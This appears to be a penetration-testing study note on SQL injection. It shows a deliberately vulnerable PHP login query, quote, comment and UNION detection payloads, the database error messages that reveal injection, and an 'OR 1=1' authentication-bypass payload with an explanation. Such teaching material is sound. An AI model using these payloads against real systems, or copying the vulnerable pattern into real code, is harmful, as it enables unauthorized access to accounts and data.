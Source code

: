 ### Phase 1: Initial Detection

#### Vulnerable Code Pattern
```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

#### Detection Payloads
```sql
-- Basic quote test
'

-- Extended quote test  
admin'

-- Comment injection test
admin'--

-- Union test
admin' UNION SELECT 1--
```

#### Expected Error Responses
```
MySQL Error Examples:
- "You have an error in your SQL syntax"
- "MySQL server version for the right syntax"
- "Operand should contain 1 column(s)"

MSSQL Error Examples:
- "Incorrect syntax near"
- "Unclosed quotation mark after"
- "Conversion failed when converting"
```

---

### Phase 2: Authentication Bypass

#### Basic Bypass Payload
```sql
-- Payload structure
offsec' OR 1=1 -- //

-- How it works:
-- Original: SELECT * FROM users WHERE user_name= 'INPUT' AND password='PASSWORD'
-- Becomes: SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 -- //' AND password='PASSWORD'
-- Result: Always true condition, returns first user
```
